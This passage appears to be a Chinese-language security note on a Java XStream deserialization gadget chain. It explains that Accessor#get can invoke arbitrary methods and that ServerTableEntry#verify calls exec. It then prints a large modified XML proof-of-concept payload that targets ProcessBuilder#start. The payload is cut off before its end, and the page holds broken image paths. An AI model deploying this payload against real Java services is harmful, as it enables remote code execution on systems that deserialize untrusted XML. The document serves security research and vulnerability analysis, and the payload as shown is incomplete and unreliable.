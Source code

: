 ```xml
</java.util.PriorityQueue>
```

其实还是反序列化，只是最后是通过`com.sun.corba.se.impl.activation.ServerTableEntry`类直接在本地执行恶意代码

主要还是Accessor#get方法的invoke

![image-20220518225057794](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518225057794.png)

这里可以去调用任意类的方法

然后在ServerTableEntry#verify中直接调用了exec

![image-20220518231111186](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518231111186.png)

然后控制activationCmd即可

其实既然可以这样去调用任意方法，那不是也可以去调用ProcessBuilder的start方法吗，我改了下poc发现居然可以

```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>java.lang.ProcessBuilder</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>java.lang.ProcessBuilder</class>
                                                    <name>start</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
```
